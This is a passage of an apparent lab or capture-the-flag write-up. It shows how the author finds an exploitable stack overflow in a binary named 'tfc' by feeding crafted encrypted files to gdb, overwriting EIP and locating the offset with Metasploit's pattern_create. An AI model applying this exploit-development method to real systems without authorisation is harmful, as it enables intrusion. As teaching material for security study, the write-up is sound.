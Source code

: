 So to recap. We generated a file `test.tfc`, which is the encrypted version of 1000 _A_'s. We then ran it through `tfc` which decrypted it to our cleartext _A_'s again.

##finding EIP
With the ability of generating encrypted files of any length now, we had everything we needed to find EIP from the previously suspected stack overflow. Worst case, we can have a clean buffer of `41`'s to work with in a debugger. So the next run, I changed the content to 6000 _A_'s, and ran it through `gdb` to be able to inspect the Segmentation Fault that occurs.

```bash
root@kali:~# python make-crypt.py > crash.tfc

root@kali:~# gdb -q ./tfc
Reading symbols from /root/tfc...(no debugging symbols found)...done.

gdb-peda$ r crash.tfc crash-out.tfc

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xb7fbfff4 --> 0x14bd7c 
ECX: 0xffffffc8 
EDX: 0x9 ('\t')
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff3d0 ('A' <repeats 200 times>...)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff3d0 ('A' <repeats 200 times>...)
0004| 0xbffff3d4 ('A' <repeats 200 times>...)
0008| 0xbffff3d8 ('A' <repeats 200 times>...)
0012| 0xbffff3dc ('A' <repeats 200 times>...)
0016| 0xbffff3e0 ('A' <repeats 200 times>...)
0020| 0xbffff3e4 ('A' <repeats 200 times>...)
0024| 0xbffff3e8 ('A' <repeats 200 times>...)
0028| 0xbffff3ec ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

**BOOM!** A cleanly overwritten EIP! :) At this stage I was fairly confident the rest of the exploit was a plain and simple stack overflow. I proceeded to fire up `pattern_create` from the Metasploit framework to generate me a unique string of 6000 characters. I then swapped out the content from my 6000 _A_'s to this pattern and rerun the crash in `gdb`.

```bash
root@kali:~# python make-crypt.py > crash.tfc

root@kali:~# gdb -q ./tfc
Reading symbols from /root/tfc...(no debugging symbols found)...done.
gdb-peda$ r crash.tfc crash-out.tfc

[... snip ...]

Stopped reason: SIGSEGV
0x35684634 in ?? ()
gdb-peda$
```
